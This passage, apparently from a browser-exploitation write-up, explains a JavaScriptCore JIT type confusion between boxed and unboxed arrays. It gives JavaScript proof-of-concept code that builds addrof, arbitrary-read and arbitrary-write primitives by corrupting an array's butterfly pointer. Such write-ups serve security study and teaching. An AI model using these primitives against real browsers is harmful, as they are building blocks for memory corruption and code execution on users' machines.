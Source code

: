 ```
    True:      0x07
    Undefined: 0x0a
    Null:      0x02
```

From here on, I will be referring to `ArrayWithDouble` as `unboxed`, and `ArrayWithContiguous` as `boxed`, for simplicity.

Why is this useful? Well, if we can obtain a type confusion, and write an unboxed double to a boxed array, the double can actually be interpreted as a pointer! Similarly if we read a boxed pointer as part of an unboxed array, we read the pointer as a raw double, allowing us to leak said pointer.

We can use this in our previous example to obtain an `addrof` primitive, the ability to leak the address of any object. Generally, inline properties of an object are always stored as boxed pointers. Now, we know that `c`'s butterfly points to the object `d`. So `c[2]` would give us the first inline property of `d`. Now what if this inline property was an object, and `c`'s Array type was `ArrayWithDouble`, i.e was an unboxed array? Then simply setting `d.x` to an object, and accessing `c[2]` would leak the address of that object! 

Here's a small PoC of what we've accomplished so far:
```js
let a = {x: 13.37, y: 26.6, z: 13.37}
let b = {x: 13.37, 0: 13.37}
let c = {x: 27.37, 0: 13.37}
let d = {x: 27.37, 0: 13.37}

for(let i = 0; i < 100; i++){
    jit(a, {})
}
// Overwrite c's butterfly with d
jit(b, d)

// Create type confusion between d's first inline property and c's butterfly 
// -> interpret object as raw double
function addrof(obj) {
    d.x = obj
    return c[2]
}
```

From here, achieving arbitrary read and write is extremely trivial. We have object `c`'s butterfly pointing to `d`, so `c[1]` will access the butterfly. 

For arbitrary read, we can set `c[1]` to the address we want to read from, and `d[0]` will give us the required value. Similary for arbitrary write, we can set `c[1]` to the address we want to write to, and write that value to `d[0]`. Let's expand our PoC:
```js
function read(addr) {
    c[1] = addr
    return d[0]
}

function write(addr, value) {
    c[1] = addr
    d[0] = value
}
```
